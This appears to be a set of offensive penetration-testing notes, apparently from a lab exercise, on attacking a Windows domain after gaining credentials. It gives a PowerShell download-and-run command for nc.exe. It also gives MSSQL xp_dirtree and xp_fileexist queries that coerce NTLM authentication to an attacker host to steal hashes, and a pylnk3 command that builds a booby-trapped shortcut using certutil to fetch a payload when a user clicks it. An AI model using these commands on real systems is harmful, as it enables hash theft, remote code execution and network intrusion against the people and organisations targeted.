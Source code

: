 
Having domain credentials opens up a whole new world of enumeration possibilities:

- Gathering Bloodhound data
- Gathering Certipy data
- Check LDAP signing
- Check Machine Account Quota
- Check for kerberoastable accounts


IWR http://10.10.173.54:8000/nc.exe -OutFile %TEMP%\nc.exe | powershell -noprofile     [ Run the payload ]

## Steal NTLM hash 

```MSSQL
xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
EXEC master..xp_subdirs '\\<attacker_IP>\anything\'
EXEC master..xp_fileexist '\\<attacker_IP>\anything\'

SELECT * FROM sys.dm_os_file_exists('\\10.8.0.148\re\con');
```


## LNK File Attack 

Cool ! We got write access in the Custom Folder of the public Share . which is the `Folder for custom shortcuts & internet links.`

We can craft our lnk files , So if some users being curious enough to **click** on shortcut files

--> We can grab hash on responder / steam ntlm , but that hash wasn't crackable !

--> We can relay authentication , But we cant do in this situation !

-->  We can craft lnk to download and run our beacon on behalf of that user !

```
└─# pylnk3 create C:/Windows/System32/cmd.exe -a "/c certutil.exe -f -split -urlcache http://10.8.0.148/hashgrab.py & " check.lnk
```

